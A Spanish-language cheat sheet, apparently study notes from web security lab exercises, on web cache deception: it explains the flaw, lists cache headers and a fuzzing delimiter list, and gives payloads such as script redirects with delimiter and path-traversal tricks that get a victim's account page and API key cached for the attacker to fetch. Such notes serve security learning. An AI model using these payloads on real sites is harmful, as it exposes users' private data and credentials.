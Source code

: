 El engaño de caché web es una vulnerabilidad que permite a un atacante engañar a una caché web para que almacene contenido dinámico y confidencial. Se debe a discrepancias entre la forma en que el servidor de caché y el servidor de origen manejan las solicitudes.

En un ataque de engaño de caché web, un atacante convence a una víctima para que visite una URL maliciosa, lo que induce al navegador de la víctima a realizar una solicitud ambigua de contenido confidencial. La caché malinterpreta esto como una solicitud de un recurso estático y almacena la respuesta. El atacante puede luego solicitar la misma URL para acceder a la respuesta almacenada en caché, obteniendo acceso no autorizado a información privada.

![[Pasted image 20250216102537.png]]

<hr> 

```http
Concentrarnos en los endpoints que sean GET, HEAD, OPTIONS. 
Ya que las solicitudes que alteran el estado del servidor de origen generalmente
no se almacenan en caché.
```

### Headers Response que definen posible almacenamiento en cache: 

```
X-Cache -> info about cache
X-Cache: hit -> response served from cache
X-Cache: miss -> cache doesnt have a answer for that request
X-Cache: dynamic -> server origin generate content dinamycally
X-Cache: refresh -> updating content stored in cache
Cache-Control: -> encabezado puede incluir una directiva que indique el almacenamiento en caché, como public con un max-agevalor mayor que 0
```

Url Web Cache Scanner BURP: [https://portswigger.net/bappstore/7c1ca94a61474d9e897d307c858d52f0](https://portswigger.net/bappstore/7c1ca94a61474d9e897d307c858d52f0)

### Web Cache Deception delimitadores list: 

```
! 
" 
# 
$ 
% 
& 
' 
( 
) 
* 
+
,
-
.
/
:
;
<
=
>
?
@
[
\
]
^
_
`
{
|
}
~
%21
%22
%23
%24
%25
%26
%27
%28
%29
%2A
%2B
%2C
%2D
%2E
%2F
%3A
%3B
%3C
%3D
%3E
%3F
%40
%5B
%5C
%5D
%5E
%5F
%60
%7B
%7C
%7D
%7E
```

## Payloads: 

```js
Engaño de cache web para el mapeo de rutas: 
<script>document.location="https://ID-LAB.web-security-academy.net/my-account/wcd.js"</script>
para luego acceder a GET /my-account/wcd.js y tomar la API Key.

Discrepancia entre limitadores (OpenLiteSpeed Server) usa el byte nulo como delimitador `%00` 
Ex: /profile%00foo.js
Ex: /profile%0Afoo.js
Ex: /profile%09foo.js
Ex2: /settings/users/list;aaa.js

Explotar la discrepancia de web cache deception
GET /my-account[burp-intruder]attack HTTP/1.1 CON LA LISTA de delimitadores del cheat sheet de arriba. that returns 200OK
<script>document.location="https://ID-LAB.web-security-academy.net/my-account;test.js"</script> 
GET /my-account;test.js

Explotacion normalizacion url server Origen (path traversal - tracking.js)
<script>document.location="https://ID-LAB.web-security-academy.net/resources/js/tracking.js/static/..%2F..%2F..%2F..%2F/my-account"</script>
GET /resources/js/tracking.js/static/..%2F..%2F..%2F..%2F/my-account HTTP/1.1


Explotacion normalizacion url server Cache (path traversal - tracking.js)
/my-account[BURP Intruder]%2f%2e%2e%2f%2e%2e%2fstatic ex:Delimitador es `#`== %23
/my-account#%2f%2e%2e%2f%2e%2e%2fstatic
Payload ganador:
<script>document.location="https://LAB-ID.web-security-academy.net/my-account%23%2f%2e%2e%2f%2e%2e%2fresources/js/tracking.js/static"</script>

Explotación de cache deception, coincidencia exacta: 
<script>document.location="https://LAB-ID.web-security-academy.net/my-account;%2f%2e%2e%2f%2e%2e%2frobots.txt?aaaa"</script>
Entrar a la URL: /my-account[;-DELIMITADOR que puede cambiar dependiendo ]%2f%2e%2e%2f%2e%2e%2frobots.txt?aaaa

```

